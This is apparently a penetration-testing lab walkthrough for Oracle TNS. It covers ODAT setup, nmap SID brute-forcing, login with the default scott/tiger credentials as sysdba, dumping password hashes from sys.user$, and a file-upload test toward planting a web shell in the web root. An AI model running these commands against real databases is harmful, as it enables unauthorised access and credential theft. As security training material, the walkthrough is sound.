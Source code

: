 # Oracle Transparent Network Substrate (TNS)

The Oracle Transparent Network Substrate (TNS) is a communication protocol that enables seamless communication between Oracle databases and applications over networks. Initially introduced as part of the Oracle Net Services software suite, TNS supports various networking protocols such as IPX/SPX and TCP/IP.

## Key Features and Usage

- **Protocol Support**: TNS facilitates communication across different networking protocols, ensuring compatibility and flexibility.
- **Industry Application**: Widely used in industries like healthcare, finance, and retail for managing large, complex databases.
- **Data Security**: TNS includes built-in encryption, ensuring secure data transmission, making it ideal for enterprise environments where data security is critical.

TNS has become a preferred solution for its robust features and secure communication capabilities.

#### Oracle-Tools-setup.sh
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```
#### Testing ODAT
```shell-session
$ ./odat.py -h
```

#### Nmap
```shell-session
$ sudo nmap -p1521 -sV 10.129.204.235 --open
```

#### Nmap - SID Bruteforcing
```shell-session
$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

#### ODAT
We can use the `odat.py` tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components. Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc. Let us use the `all` option and try all modules of the `odat.py` tool.
```shell-session
./odat.py all -s 10.129.204.235
```

#### SQLplus - Log In

```shell-session
$ sqlplus scott/tiger@10.129.204.235/XE
```
If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`
```shell-session
$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

#### Oracle RDBMS - Interaction
```shell-session
select table_name from all_tables;
```
```shell-session
select * from user_role_privs;
```

#### Oracle RDBMS - Database Enumeration
```shell-session
$ sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
#### Oracle RDBMS - Extract Password Hashes
```shell-session
select name, password from sys.user$;
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.
```shell-session
$ echo "Oracle File Upload Test" > testing.txt
```
```shell-session
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
```shell-session
$ curl -X GET http://10.129.204.235/testing.txt
```